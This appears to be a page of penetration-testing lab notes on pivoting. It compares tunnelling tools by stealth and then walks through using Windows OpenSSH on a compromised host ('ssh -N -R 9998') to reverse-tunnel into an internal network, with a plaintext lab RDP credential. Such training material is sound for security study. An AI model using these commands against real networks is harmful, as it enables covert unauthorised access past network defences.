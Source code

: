 <table><thead><tr><th width="109">Tool</th><th width="138">Setup Complexity</th><th>Stealth</th><th>Encryption</th><th>Port Forward</th><th>SOCKS Proxy</th><th>Notes</th></tr></thead><tbody><tr><td><strong>Socat</strong></td><td>Low</td><td>Medium</td><td>No</td><td>✔️</td><td>❌</td><td>Classic and reliable</td></tr><tr><td><strong>Chisel</strong></td><td>Medium</td><td>High</td><td>Optional (HTTPS)</td><td>✔️</td><td>❌</td><td>HTTP/WebSocket tunnels</td></tr><tr><td><strong>Ligolo-NG</strong></td><td>Medium-High</td><td>High</td><td>✔️</td><td>✔️</td><td>✔️</td><td>Agent-based pivoting</td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr></tbody></table>

## Windows

### SSH

On Windows versions with SSH installed, the `ssh-*` utilities can be found in `%systemdrive%\Windows\System32\OpenSSH`. Our scenario:

* We have RDP access to `MULTISERVER03` (`198.168.177.64`).
* We need to pivot into the internal network to reach services like PostgreSQL on `PGDATABASE01` (`10.4.177.215`).
* Direct outbound connections from Kali to internal targets are blocked.
* Only RDP is allowed into `MULTISERVER03`.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FP5R2T2vhrpqfxDExzCnu%252Fport_forward_ssh-exe.png%3Falt%3Dmedia%26token%3Dddac979d-92cb-4881-a3ad-45ac118628cd&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=3f41c516&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% tabs %}
{% tab title="1. SSH Server & RDP" %}
Start zn SSH server on Kali and RDP into `MULTISERVER03`.

```bash
# ssh server on Kali
$ sudo service ssh start
Starting OpenBSD Secure Shell server: sshd.

# RDP to MULT03
$ xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /v:192.168.177.64
```
{% endtab %}

{% tab title="2. Port Forward" %}
Create the remote port forward on `MULTISERVER03`.

```powershell
C:\Windows\system32>whoami
multiserver03\rdp_admin
# check if SSH is installed
C:\Windows\system32>where ssh
C:\Windows\System32\OpenSSH\ssh.exe
# check if SSH version is > 7.6
C:\Windows\system32>ssh.exe -V
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
# create the remote port forward
C:\Windows\system32>ssh -N -R 9998 x7331@192.168.45.235
```
{% endtab %}
